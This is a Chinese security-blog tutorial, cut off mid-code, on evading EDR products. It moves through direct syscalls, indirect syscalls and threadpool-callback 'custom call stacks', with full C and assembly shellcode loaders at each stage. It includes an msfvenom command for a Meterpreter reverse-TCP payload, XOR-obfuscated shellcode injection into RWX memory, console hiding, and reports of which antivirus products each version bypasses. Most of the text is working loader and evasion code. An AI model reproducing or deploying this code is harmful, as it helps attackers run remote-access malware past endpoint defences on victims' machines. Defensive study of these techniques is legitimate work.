# 浅析-从系统调用到自定义堆栈-先知社区

> **来源**: https://xz.aliyun.com/news/18561  
> **文章ID**: 18561

---

# 浅析-从系统调用到自定义堆栈

## 一、概述

最近学习EDR对抗，深入阅读了并实践了一些关于系统调用绕过与检测对抗的技术文章，例如：

<https://redops.at/blog/direct-syscalls-a-journey-from-high-to-low>  
<https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls>  
<https://0xdarkvortex.dev/hiding-in-plainsight/>

这三篇文章让我对系统调用背后的工作机制、EDR 检测原理，以及攻击者如何持续演化调用方式以对抗检测，有了初步的理解。它们从不同角度描绘了一个清晰的攻防演进图景：从最初的 WinAPI 调用、到直接系统调用（Direct Syscall）、再到间接调用（Indirect Syscall），最后发展到当前越来越受重视的“自定义堆栈”（Custom Call Stack）调用方式。特此记录尝试以浅显的语言，梳理从传统系统调用到自定义堆栈调用的演化逻辑，结合示例代码与实践对抗场景，来进行探索！

### 实验环境

Visal Studio 2022，Win11

## 二、系统调用简史：从API到syscall

理解系统调用的演进路径，有助于我们更好地识别 EDR 是如何检测行为的，也有助于我们明白攻击者如何从简单调用逐步“隐藏自己”。本节将从最基本的 WinAPI 调用谈起，逐步讲到 Direct Syscall 与 Indirect Syscall，再引出 Custom Call Stack。并附上实例代码。

### 高级API

在windows操作系统中，API分层非常明显，大致可以分为高级API、中级API、低级API，高级API是面向普通应用开发者的结构，提供了功能丰富，易用性强的系统调用封装，这些API是安全产品最容易Hook的地方，往往会被记录、拦截、打补丁

```
VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

这段代码看似是直接调用操作系统进行内存分配，实际上只是调用了用户态的API，隐藏了很多底层细节。这类API‘并不直接触发内核操作，而是通过中间层-ntdll.dll中的函数，如NtAllocateVirtualMemory

即 WinAPI --> ntdll.dll --> 内核syscall

### 中级API

ntdll.dll 是系统层中最靠近内核的一层，中级API则是ntdll.dll中导出的以Nt或Zw开头的函数，如：NtAllocateVirtual，NtWriteVirtualMemory，NtCreateThreadEx

这些API本质是对系统调用的一层封装，位于用户态，但是可以直接触发内核操作。如果EDR尽在kernel32.dll中设置用户模式钩子，那使用中级API就足以绕过

### 低级API

低级API是真正执行系统调用的部分，也是实现直接系统调用到 一种方式，使用这种方式可以完全绕过所有用户态的DLL(包括ntdll)的检测。低级API不依赖于任何DLL，难以Hook，具有很高的隐蔽性

通常通过我们自己手动构造系统调用，如：

```
mov r10, rcx
mov eax, syscall_number
syscall
```

我们也可以直接使用工具自动生成我们所需的代码，如：<https://github.com/jthuraisamy/SysWhispers2>

## 三、直接系统调用

直接系统调用的核心思想是：完全跳过ntdll导出的函数封装，直接执行syscall指令，向内核发起调用请求

通常情况下，Windows 系统中的用户态 API 如 NtWriteVirtualMemory 实际上是 ntdll.dll 中的一段函数封装，它内部会设置好寄存器并调用 syscall 指令。而 EDR 为了检测行为，常常会在这些函数处进行 inline hook —— 将 API 的前几个字节替换为跳转逻辑，重定向到自家驱动监控模块。

Direct Syscall 的关键步骤是：

1、自己提取 SSN（系统服务号，每个系统调用都有一个特殊的系统调用号，内核正是使用这些系统调用号来区分不同系统调用，SSN不固定，受操作系统及版本影响）  
2、己构造 syscall stub  
3、自己完成参数压栈与寄存器传值  
4、直接调用 syscall 指令

现在我们一起来实践一下代码，测试一下。

### ShellCode

首先我们使用msfconsole生成一段shellCode，msfconsole是kali自带的一个工具，确保我们的shellCode是恶意的

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f c -o shellcode.c
```

将shellCode异或加密后粘贴到代码中，写入前再解密

### syscalls.h

```
#ifndef _SYSCALLS_H  
#define _SYSCALLS_H  

#include <windows.h>  // 引入 Windows API 头文件

#ifdef __cplusplus   // 如果该头文件被包含在 C++ 文件中，则为真
extern "C" {         // 使用 C 语言链接方式，防止函数名被 C++ 编译器改名（函数名重整）
#endif

    // NTSTATUS 类型通常在 Windows 头文件中定义为 long 类型。
    typedef long NTSTATUS;  // 将 NTSTATUS 定义为 long 类型
    typedef NTSTATUS* PNTSTATUS;  // 定义 NTSTATUS 指针类型

    // 声明 NtAllocateVirtualMemory 函数原型
    extern NTSTATUS NtAllocateVirtualMemory(
        HANDLE ProcessHandle,    // 要分配内存的进程句柄
        PVOID* BaseAddress,      // 指向基地址的指针
        ULONG_PTR ZeroBits,      // 指定基地址高位必须为零的位数
        PSIZE_T RegionSize,      // 指向区域大小的指针
        ULONG AllocationType,    // 分配类型
        ULONG Protect            // 页区域的内存保护属性
    );

    // 声明 NtWriteVirtualMemory 函数原型
    extern NTSTATUS NtWriteVirtualMemory(
        HANDLE ProcessHandle,         // 要写入内存的进程句柄
        PVOID BaseAddress,            // 指向目标内存地址
        PVOID Buffer,                 // 包含要写入数据的缓冲区
        SIZE_T NumberOfBytesToWrite,  // 要写入的字节数
        PULONG NumberOfBytesWritten   // 接收实际写入字节数的指针
    );

    // 声明 NtCreateThreadEx 函数原型
    extern NTSTATUS NtCreateThreadEx(
        PHANDLE ThreadHandle,         // 接收新线程句柄的指针
        ACCESS_MASK DesiredAccess,    // 线程所需的访问权限
        PVOID ObjectAttributes,       // 指向 OBJECT_ATTRIBUTES 结构体，指定对象属性
        HANDLE ProcessHandle,         // 要在其中创建线程的进程句柄
        PVOID lpStartAddress,         // 指向线程将执行的函数（入口点）
        PVOID lpParameter,            // 传递给线程的参数
        ULONG Flags,                  // 控制线程创建的标志
        SIZE_T StackZeroBits,         // 栈指针高位必须为零的位数
        SIZE_T SizeOfStackCommit,     // 初始提交的栈大小
        SIZE_T SizeOfStackReserve,    // 保留的栈大小
        PVOID lpBytesBuffer           // 指向缓冲区，用于接收系统返回的数据
    );

    // 声明 NtWaitForSingleObject 函数原型
    extern NTSTATUS NtWaitForSingleObject(
        HANDLE Handle,          // 要等待的对象句柄
        BOOLEAN Alertable,      // 如果为 TRUE，当系统向线程队列添加 I/O 完成例程或 APC 时会返回
        PLARGE_INTEGER Timeout  // 指向 LARGE_INTEGER 的指针，指定绝对或相对时间，到时间后函数返回，不论对象状态如何
    );

#ifdef __cplusplus  // 如果之前定义了 __cplusplus，则结束 extern "C" 块
}
#endif

#endif 

```

我们在头文件中先声明我们需要使用的Nt函数

### main.c

因为 SSN受系统版本影响，不是固定不变的，所以我们需要动态获取，如图，NtAllocateVirtualMemory+0x4的偏移的位置即为SSN



```
#include <windows.h>
#include <stdio.h>
#include "syscalls.h"
//替换成你自己的shellCode
unsigned char shellcode[] = {
};


void encode(unsigned char* shellCode, int shellLen) {
    for (int i = 0; i < shellLen; i++) {
        shellCode[i] ^= 0x5;
    }

}

//声明全局变量以保存系统调用编号
DWORD wNtAllocateVirtualMemory;
DWORD wNtWriteVirtualMemory;
DWORD wNtCreateThreadEx;
DWORD wNtWaitForSingleObject;

int main() {
    PVOID allocBuffer = NULL;
    SIZE_T buffSize = 0x1000; 

    HANDLE hNtdll = GetModuleHandleA("ntdll.dll");

    UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtAllocateVirtualMemory");
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];


    UINT_PTR pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtWriteVirtualMemory");
    wNtWriteVirtualMemory = ((unsigned char*)(pNtWriteVirtualMemory + 4))[0];

    UINT_PTR pNtCreateThreadEx = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtCreateThreadEx");
    wNtCreateThreadEx = ((unsigned char*)(pNtCreateThreadEx + 4))[0];

    UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtWaitForSingleObject");
    wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];

    //使用 NtAllocateVirtualMemory 函数为 shellcode 分配内存
    NtAllocateVirtualMemory((HANDLE)-1, (PVOID*)&allocBuffer, (ULONG_PTR)0, &buffSize, (ULONG)(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);

    SIZE_T bytesWirtten;
    encode(shellcode, sizeof(shellcode));
    NtWriteVirtualMemory(GetCurrentProcess(), allocBuffer, shellcode, sizeof(shellcode),&bytesWirtten);

    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), (LPTHREAD_START_ROUTINE)allocBuffer, NULL, FALSE, 0, 0, 0, NULL);

    NtWaitForSingleObject(hThread, FALSE, NULL);
    getchar();

}
```

### syscalls.asm

在syscalls.asm中实现对应的Nt函数

```
EXTERN wNtAllocateVirtualMemory:DWORD               ; EXTERN用于声明变量为全局，避免将SSN硬编码到汇编代码中
EXTERN wNtWriteVirtualMemory:DWORD                  
EXTERN wNtCreateThreadEx:DWORD                   
EXTERN wNtWaitForSingleObject:DWORD               

.CODE  ; 开始代码段

; NtAllocateVirtualMemory 系统调用的过程
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; 将 rcx 的内容移动到 r10。因为在 64 位 Windows 中 syscall 指令要求参数传递在 r10 和 rdx 中。
    mov eax, wNtAllocateVirtualMemory               ; 将系统调用号放入 eax 寄存器。
    syscall                                         
    ret  
NtAllocateVirtualMemory ENDP                       


; NtWriteVirtualMemory 系统调用的过程
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, wNtWriteVirtualMemory
    syscall                                       
    ret  
NtWriteVirtualMemory ENDP


; NtCreateThreadEx 系统调用的过程
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, wNtCreateThreadEx
    syscall                                         
    ret  
NtCreateThreadEx ENDP


; NtWaitForSingleObject 系统调用的过程
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, wNtWaitForSingleObject
    syscall                                       
    ret  
NtWaitForSingleObject ENDP

END

```

注意：在vs2022中，我们需要右键项目名称，修改生成依赖项及syscalls.asm的属性







关闭杀毒软件后，运行完成后实测可以通联，打开杀毒软件后立即被查杀




在正常情况下，在windows系统中，所有调用syscall指令的合法路径都集中在ntdll中，我们使用直接系统调用时，syscall在我们自己的内存区域中调用，并且return指令也位于非ntdll中，以及调用syscall的stub函数、跳转、返回地址、指令都几种在一个区域中，并且这些区域不属于任何系统模块，这些都是非常明显的IOC

## 四、间接系统调用

间接系统调用则是直接系统调用技术的演变，在间接系统调用中，syscall和return指令发生在ntdll的内存中，并从ntdll的内存中指向间接系统调用程序集的内存

在代码中，相比直接系统调用只记录SSN，间接系统调用还需要记录系统调用指令的地址

syscalls.h文件不变

### main.c

```
void encode(unsigned char* shellCode, int shellLen) {
    for (int i = 0; i < shellLen; i++) {
        shellCode[i] ^= 0x5;
    }

}

//声明全局变量以保存系统调用编号和系统调用指令地址
DWORD wNtAllocateVirtualMemory;
UINT_PTR sysAddrNtAllocateVirtualMemory;
DWORD wNtWriteVirtualMemory;
UINT_PTR sysAddrNtWriteVirtualMemory;
DWORD wNtCreateThreadEx;
UINT_PTR sysAddrNtCreateThreadEx;
DWORD wNtWaitForSingleObject;
UINT_PTR sysAddrNtWaitForSingleObject;

int main() {
    HWND hwnd = GetConsoleWindow();
    ShowWindow(hwnd, SW_HIDE);

    PVOID allocBuffer = NULL;
    SIZE_T buffSize = 0x1000; // 4096 字节

    HANDLE hNtdll = GetModuleHandleA("ntdll.dll");

    UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtAllocateVirtualMemory");
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];
    //syscalss指令距离函数开头开始是 0x12 字节。
    //所以我们在函数的地址上加0x12，得到系统调用指令的地址。
    sysAddrNtAllocateVirtualMemory = pNtAllocateVirtualMemory + 0x12;


    UINT_PTR pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtWriteVirtualMemory");
    wNtWriteVirtualMemory = ((unsigned char*)(pNtWriteVirtualMemory + 4))[0];
    sysAddrNtWriteVirtualMemory = pNtWriteVirtualMemory + 0x12;

    UINT_PTR pNtCreateThreadEx = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtCreateThreadEx");
    wNtCreateThreadEx = ((unsigned char*)(pNtCreateThreadEx + 4))[0];
    sysAddrNtCreateThreadEx = pNtCreateThreadEx + 0x12;

    UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtWaitForSingleObject");
    wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];
    sysAddrNtWaitForSingleObject = pNtWaitForSingleObject + 0x12;

    //使用 NtAllocateVirtualMemory 函数为 shellcode 分配内存
    NtAllocateVirtualMemory((HANDLE)-1, (PVOID*)&allocBuffer, (ULONG_PTR)0, &buffSize, (ULONG)(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    //NtAllocateVirtualMemory((HANDLE)-1, (PVOID*)&allocBuffer, (ULONG_PTR)0, &buffSize, (ULONG)(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);


    SIZE_T bytesWirtten;
    encode(shellcode, sizeof(shellcode));
    NtWriteVirtualMemory(GetCurrentProcess(), allocBuffer, shellcode, sizeof(shellcode),&bytesWirtten);

    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), (LPTHREAD_START_ROUTINE)allocBuffer, NULL, FALSE, 0, 0, 0, NULL);

    NtWaitForSingleObject(hThread, FALSE, NULL);
    getchar();

}
```

### syscalls.asm

```
EXTERN wNtAllocateVirtualMemory:DWORD               ; EXTERN 关键字表示该符号在另一个模块中定义。这里是 NtAllocateVirtualMemory 的系统调用号。
EXTERN sysAddrNtAllocateVirtualMemory:QWORD         ; NtAllocateVirtualMemory 系统调用指令在 ntdll.dll 中的实际地址。

EXTERN wNtWriteVirtualMemory:DWORD                  ; NtWriteVirtualMemory 的系统调用号。
EXTERN sysAddrNtWriteVirtualMemory:QWORD            ; NtWriteVirtualMemory 系统调用指令在 ntdll.dll 中的实际地址。

EXTERN wNtCreateThreadEx:DWORD                      ; NtCreateThreadEx 的系统调用号。
EXTERN sysAddrNtCreateThreadEx:QWORD                ; NtCreateThreadEx 系统调用指令在 ntdll.dll 中的实际地址。

EXTERN wNtWaitForSingleObject:DWORD                 ; NtWaitForSingleObject 的系统调用号。
EXTERN sysAddrNtWaitForSingleObject:QWORD           ; NtWaitForSingleObject 系统调用指令在 ntdll.dll 中的实际地址。

.CODE  ; 开始代码段

; NtAllocateVirtualMemory 系统调用的过程
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; 将 rcx 的内容移动到 r10。因为在 64 位 Windows 中 syscall 指令要求参数传递在 r10 和 rdx 中。
    mov eax, wNtAllocateVirtualMemory               ; 将系统调用号放入 eax 寄存器。
    jmp QWORD PTR [sysAddrNtAllocateVirtualMemory]  ; 跳转到实际的系统调用地址。
NtAllocateVirtualMemory ENDP                        ; 过程结束。


; NtWriteVirtualMemory 系统调用的过程
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, wNtWriteVirtualMemory
    jmp QWORD PTR [sysAddrNtWriteVirtualMemory]
NtWriteVirtualMemory ENDP


; NtCreateThreadEx 系统调用的过程
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, wNtCreateThreadEx
    jmp QWORD PTR [sysAddrNtCreateThreadEx]
NtCreateThreadEx ENDP


; NtWaitForSingleObject 系统调用的过程
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, wNtWaitForSingleObject
    jmp QWORD PTR [sysAddrNtWaitForSingleObject]
NtWaitForSingleObject ENDP

END

```

可以很清楚的看到右下角间接系统调用和直接系统调用的堆栈区别

间接系统调用：



直接系统调用：



使用这种方法，已经可以规避部分安全软件的查杀，实测可以过掉某火的查杀，但是过不了某3的查杀




## 五、自定义堆栈

现代的EDR产品中，仅仅使用直接系统调用或间接系统调用已难以完成绕过检测。因为EDR会分析调用链和调用栈，无论是直接还是间接系统调用，都会留下可疑栈帧信息。特别是使用回调、APC、远程线程等技术是，栈指针或返回地址常常位于非标准区域。为了进一步隐藏行为，构造可信的调用路径，我们就需要使用到自定义堆栈。

### 原理

为了解决上述问题，自定义堆栈技术提出了一种更高级的做法：通过Windows自带的Callback机制(如Threadpool Callback)来“借壳执行”NTAPI调用，这样我们的syscall就可以从合法模块的回调机制中触发，是整个调用链看起来正常

以TpAllocWork为例，这个API可以注册一个回调函数，并将自定义参数传入该回调中。当Threadpool调用此回调函数时，其调用链即为ntdll.dll --> TppWorkCallback --> WorkCallback。这样构建一条合法的堆栈路径，我们只需要在WorkCallback中构造适当的寄存器和堆栈环境，跳转执行Nt函数即可

### 参数准备

在WindowsX64调用约定中，前四个参数分别通过RCX,RDX,R8,R9传递，其余通过栈传递，并预留32字节的“homing space”，因此我们需要将结构体中的信息：

```
typedef struct _NTALLOCATEVIRTUALMEMORY_ARGS {
    UINT_PTR pNtAllocateVirtualMemory; // NtAllocateVirtualMemory 的地址 对应 rax
    HANDLE hProcess; // 进程句柄 对应rcx
    PVOID* address; // 基地址 对应 rdx  ULONG_PTR ZeroBits固定为0 为r8x
    PSIZE_T size;     // 区域大小 对应 r9x  ULONG AllocationType固定为MEM_RESERVE|MEM_COMMIT即0x3000
    ULONG permissions; // 保护标志固定为PAGE_EXECUTE_READ 即0x20 栈中保存
} NTALLOCATEVIRTUALMEMORY_ARGS, * PNTALLOCATEVIRTUALMEMORY_ARGS;
```

映射到正确的寄存器和栈位置

### 汇编构造

```
WorkCallback PROC
    mov     rbx, rdx             ; 结构体传入的地址（存于RDX）备份到RBX
    mov     rax, [rbx]           ; rax = NtAllocateVirtualMemory
    mov     rcx, [rbx+0x8]       ; rcx = hProcess
    mov     rdx, [rbx+0x10]      ; rdx = address
    xor     r8, r8               ; ZeroBits = 0
    mov     r9, [rbx+0x18]       ; r9 = size
    mov     r10, [rbx+0x20]      ; permissions (6th param)
    mov     [rsp+0x30], r10      ; 放置第6个参数
    mov     r10d, 0x3000         ; AllocationType = MEM_COMMIT | MEM_RESERVE
    mov     [rsp+0x28], r10d     ; 放置第5个参数
    jmp     rax                  ; 跳转调用 NtAllocateVirtualMemory

WorkCallback ENDP
```

注意：我们并没有破坏栈帧，而是利用已有的Callback栈空间，在不改变返回地址的前提下修改其内部数据，从而达到伪装目的

​

现在就需要我们将一些敏感Nt函数全部自定义堆栈

代码：

main.c

```
#include <windows.h>
#include <stdio.h>
#include "syscalls.h"
#pragma comment( linker, "/subsystem:windows /entry:mainCRTStartup" )
void encode(unsigned char* shellCode, int shellLen) {
	for (int i = 0; i < shellLen; i++) {
		shellCode[i] ^= 0x5;
	}

}

unsigned char shellcode[518] = {
};

//声明全局变量以保存系统调用编号和系统调用指令地址
DWORD wNtWaitForSingleObject;
UINT_PTR sysAddrNtWaitForSingleObject;

typedef NTSTATUS(NTAPI* TPALLOCWORK)(PTP_WORK* ptpWrk, PTP_WORK_CALLBACK pfnwkCallback, PVOID OptionalArg, PTP_CALLBACK_ENVIRON CallbackEnvironment);
typedef VOID(NTAPI* TPPOSTWORK)(PTP_WORK);
typedef VOID(NTAPI* TPRELEASEWORK)(PTP_WORK);

//NtAllocateVirtualMemory((HANDLE)-1, (PVOID*)&allocBuffer, (ULONG_PTR)0, &buffSize, (ULONG)(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
typedef struct _NTALLOCATEVIRTUALMEMORY_ARGS {
	UINT_PTR pNtAllocateVirtualMemory; // NtAllocateVirtualMemory 的地址 对应 rax
	HANDLE hProcess; // 进程句柄 对应rcx
	PVOID* address; // 基地址 对应 rdx  ULONG_PTR ZeroBits固定为0 为r8x
	PSIZE_T size;     // 区域大小 对应 r9x  ULONG AllocationType固定为MEM_RESERVE|MEM_COMMIT即0x3000
	ULONG permissions; // 保护标志固定为PAGE_EXECUTE_READ 即0x20 栈中保存
} NTALLOCATEVIRTUALMEMORY_ARGS, * PNTALLOCATEVIRTUALMEMORY_ARGS;

//NtWriteVirtualMemory(GetCurrentProcess(), allocatedAddress, shellcode, sizeof(shellcode), &bytesWirtten);
typedef struct _NTWRITEVIRTUALMEMORY_ARGS {
	UINT_PTR pNtWriteVirtualMemory; // NtAllocateVirtualMemory 的地址 对应 rax
	HANDLE hProcess; 
	LPVOID baseAddress;
	LPVOID buffer; 
	SIZE_T size;     // 区域大小 对应 r9x  ULONG AllocationType固定为MEM_RESERVE|MEM_COMMIT即0x3000
	PSIZE_T bytesWritten; // 保护标志固定为PAGE_EXECUTE_READ 即0x20 栈中保存
} NTWRITEVIRTUALMEMORY_ARGS, * PNTWRITEVIRTUALMEMORY_ARGS;


typedef struct _NTCREATETHREADEX_ARGS {
	UINT_PTR pNtCreateThreadEx;    // 函数地址 -> RAX
	PHANDLE hThread;               // [RCX]
	ACCESS_MASK access;           // [RDX]
	PVOID objectAttributes;       // [R8]   - 可以为 NULL
	HANDLE hProcess;              // [R9]
	PVOID startRoutine;           // [rsp+0x28]
	PVOID argument;               // [rsp+0x30]
	ULONG flags;                  // [rsp+0x38]
	SIZE_T zeroBits;              // [rsp+0x40]
	SIZE_T stackSize;             // [rsp+0x48]
	SIZE_T maxStackSize;          // [rsp+0x50]
	PVOID attributeList;          // [rsp+0x58]
} NTCREATETHREADEX_ARGS, * PNTCREATETHREADEX_ARGS;

extern VOID CALLBACK WorkCallback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);
extern VOID CALLBACK Work2Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);
extern VOID CALLBACK Work3Callback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work);


int main() {
	HWND hwnd = GetConsoleWindow();
	ShowWindow(hwnd, SW_HIDE);

	LPVOID allocatedAddress = NULL;
	SIZE_T allocatedsize = 0x1000;

	HANDLE hNtdll = GetModuleHandleA("ntdll.dll");


	UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress((HMODULE)hNtdll, "NtWaitForSingleObject");
	wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];
	sysAddrNtWaitForSingleObject = pNtWaitForSingleObject + 0x12;

	NTALLOCATEVIRTUALMEMORY_ARGS ntAllocateVirtualMemoryArgs = { 0 };
	ntAllocateVirtualMemoryArgs.pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA("ntdll"), "NtAllocateVirtualMemory");
	ntAllocateVirtualMemoryArgs.hProcess = (HANDLE)-1;
	ntAllocateVirtualMemoryArgs.address = &allocatedAddress;
	ntAllocateVirtualMemoryArgs.size = &allocatedsize;
	ntAllocateVirtualMemoryArgs.permissions = PAGE_EXECUTE_READWRITE;

	FARPROC pTpAllocWork = GetProcAddress(GetModuleHandleA("ntdll"), "TpAllocWork");
	FARPROC pTpPostWork = GetProcAddress(GetModuleHandleA("ntdll"), "TpPostWork");
	FARPROC pTpReleaseWork = GetProcAddress(GetModuleHandleA("ntdll"), "TpReleaseWork");

	PTP_WORK WorkReturn = NULL;
	((TPALLOCWORK)pTpAllocWork)(&WorkReturn, (PTP_WORK_CALLBACK)WorkCallback, &ntAllocateVirtualMemoryArgs, NULL);
	((TPPOSTWORK)pTpPostWork)(WorkReturn);
	((TPRELEASEWORK)pTpReleaseWork)(WorkReturn);
	WaitForSingleObject((HANDLE)-1, 0x1000);


	NTSTATUS status;
	SIZE_T bytesWirtten;
	encode(shellcode, sizeof(shellcode));
	//status = NtWriteVirtualMemory(GetCurrentProcess(), allocatedAddress, shellcode, sizeof(shellcode), &bytesWirtten);
	NTWRITEVIRTUALMEMORY_ARGS ntWriteVirtualMemoryArgs = { 0 };
	ntWriteVirtualMemoryArgs.pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA("ntdll"), "NtWriteVirtualMemory");
	ntWriteVirtualMemoryArgs.hProcess = (HANDLE)-1;              // 当前进程
	ntWriteVirtualMemoryArgs.baseAddress = allocatedAddress;     // 要写入的目标地址
	ntWriteVirtualMemoryArgs.buffer = shellcode;                 // 指向 shellcode 的缓冲区
